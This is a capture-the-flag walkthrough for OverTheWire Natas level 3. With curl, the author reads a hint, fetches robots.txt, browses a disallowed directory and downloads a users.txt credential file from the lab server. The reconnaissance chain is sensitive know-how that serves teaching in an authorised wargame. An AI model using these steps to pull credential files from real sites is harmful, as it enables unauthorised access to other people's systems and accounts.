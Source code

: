 ```bash
curl -i -u natas3:natas3password http://natas3.natas.labs.overthewire.org/  
```

The HTML looks empty except for a bold little comment:  

No more information leaks!! Not even Google will find it this time...  

That line practically screams **robots.txt**, 
because that’s exactly how you tell Google (and other crawlers) to stay away.  

---

### Checking Robots.txt  

So the next step is to grab that file directly:  

```bash
curl -i -u natas3:natas3password http://natas3.natas.labs.overthewire.org/robots.txt  
```

The response says:  

User-agent: *  
Disallow: /s3cr3t/  

Bingo.  

---

### Digging Deeper  

Heading into the disallowed directory:  

```bash
curl -i -u natas3:natas3password http://natas3.natas.labs.overthewire.org/s3cr3t/  
```

This reveals an Apache directory listing with a single interesting file: `users.txt`.  

---

### Grabbing the File  

One more curl to fetch that file directly:  

```bash
curl -i -u natas3:natas3password http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt  
```

Inside is the credential for the next level.  

---

### Lesson Learned  

This level ties a neat chain together:  

- A comment hints at **Google** → think **robots.txt**.  
- `robots.txt` discloses a **hidden directory**.  
- Directory listing exposes sensitive files.  
